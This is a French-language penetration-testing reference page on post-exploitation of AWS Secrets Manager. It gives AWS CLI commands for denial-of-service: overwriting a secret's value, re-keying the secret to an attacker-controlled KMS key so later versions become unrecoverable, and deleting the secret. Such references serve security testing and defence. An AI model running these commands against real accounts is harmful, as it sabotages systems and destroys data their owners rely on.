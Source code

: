 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Pour plus d'informations, consultez :

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Lire les secrets

Les **secrets eux-mêmes sont des informations sensibles**, [consultez la page privesc](../aws-privilege-escalation/aws-secrets-manager-privesc.md) pour apprendre comment les lire.

### DoS — Changer la valeur du secret

En changeant la valeur du secret, vous pourriez **DoS l'ensemble des systèmes qui dépendent de cette valeur.**

> [!WARNING]
> Notez que les valeurs précédentes sont également stockées, il est donc facile de revenir à la valeur précédente.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Si l'attaquant dispose de la permission secretsmanager:UpdateSecret, il peut configurer le secret pour qu'il utilise une KMS key appartenant à l'attaquant. Cette KMS key est initialement configurée de sorte que n'importe qui puisse y accéder et l'utiliser, ce qui permet de mettre à jour le secret avec la nouvelle clé. Si la clé n'était pas accessible, le secret n'aurait pas pu être mis à jour.

Après avoir changé la KMS key du secret, l'attaquant modifie la configuration de sa KMS key pour que lui seul puisse y accéder. Ainsi, dans les versions ultérieures du secret, celui-ci sera chiffré avec la nouvelle clé et, faute d'accès à celle-ci, la possibilité de récupérer le secret sera perdue.

Il est important de noter que cette inaccessibilité ne se produira que sur les versions ultérieures, après que le contenu du secret ait changé, puisque la version actuelle reste chiffrée avec la KMS key originale.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Suppression d'un secret

Le délai minimum pour supprimer un secret est de 7 jours
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
{{#include ../../../banners/hacktricks-training.md}}
